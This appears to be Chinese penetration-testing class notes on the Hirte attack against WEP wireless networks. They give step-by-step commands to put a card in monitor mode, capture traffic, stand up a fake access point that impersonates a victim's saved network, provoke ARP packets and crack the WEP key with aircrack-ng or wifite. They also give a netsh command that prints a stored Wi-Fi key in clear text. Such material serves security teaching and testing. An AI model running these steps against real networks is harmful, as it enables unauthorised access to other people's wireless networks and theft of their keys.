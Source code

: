 # WEP-渗透WEP新思路--Hirte

## 1.Hirte介绍

Hirte是破解无线网络WEP Key的一种攻击类型

只要客户端设备（笔记本电脑，手机等）连接过的无线网络，那些WIFI即使是不在攻击者范围内也都能被破解，因为该wifi的WEP密钥和配置文件仍然存储在这些无线设备中。

```
  netsh wlan show profile name="cisco-1809" key=clear    
```

实施这种攻击的要求是建立一个和WEP网络相同的SSID假冒接入点。当客户端设备尝试自动连接到无线网络设时，假冒接入点（攻击者机器）会对受害者设备进行ARP攻击，导致受害者设备将包含密钥流的数据包发出。

## 2.Hirte破解原理

1.安装一个假的WEP AP(wifi名,mac地址要相同)并等待客户端连接

2.客户端的连接等待自动分配IP地址

3.客户端发送一个ARP数据包

4.获得了ARP分组，并且将其转换成一个ARP请求为同一客户机

5.客户回复

6.收集这些数据包

7.破解WEP密钥

## 3.渗透姿势1

#### 1.查看网卡信息

```
ip a
```

#### 2.监听网卡

```
airmon-ng start wlan0
```

#### 3.扫描附近的wifi

```
airodump-ng wlan0mon
```

#### 4.配置airodump-ng捕捉数据包并保存数据包文件名字为HSEK

```
airodump-ng wlan0mon --bssid   D8:24:BD:79:18:0B --write HSEK
--bssid：AP的mac地址
--write：保存文件
```

#### 5.开始伪造AP,用airbase-ng工具建立WEP接入点

```
airbase-ng -c 1 -a  D8:24:BD:79:18:0B --essid "cisco-1809" -W 1 -N wlan0mon
-c:信道
-a：模拟AP的MAC地址
--essid：wifi的名称
-W:设置加密位
-N:使Hirte攻击模式
wlan0mon：是接口
```

#### 6.只要有客户端一连上来,就会进行攻击

![image-20211126191930629](https://image.201068.xyz/assets/image-20211126191930629.png)

![image-20211126191947433](https://image.201068.xyz/assets/image-20211126191947433.png)

#### 7.启动aircrack-ng从捕获的数据包：Hirte破解WEP密钥

```
aircrack-ng HSEK-01.cap
```

破解密码是有要求的,第一次ivs必须要大于5000,当小于这个数的话,就会提示

![image-20211126192040363](https://image.201068.xyz/assets/image-20211126192040363.png)

![image-20211126192054536](https://image.201068.xyz/assets/image-20211126192054536.png)

## 4.渗透姿势2

#### 1.扫描并指定破解方式

```
wifite  -wep -hirte
```

#### 2.加速ivs收集

```
ping -t 192.168.1.1
```

#### 3.开启攻击脚本

```
启动cmd.py
```

#### 4.获得密钥

![image-20211126192808198](https://image.201068.xyz/assets/image-20211126192808198.png)

## 5.课堂小结

参考：课后笔记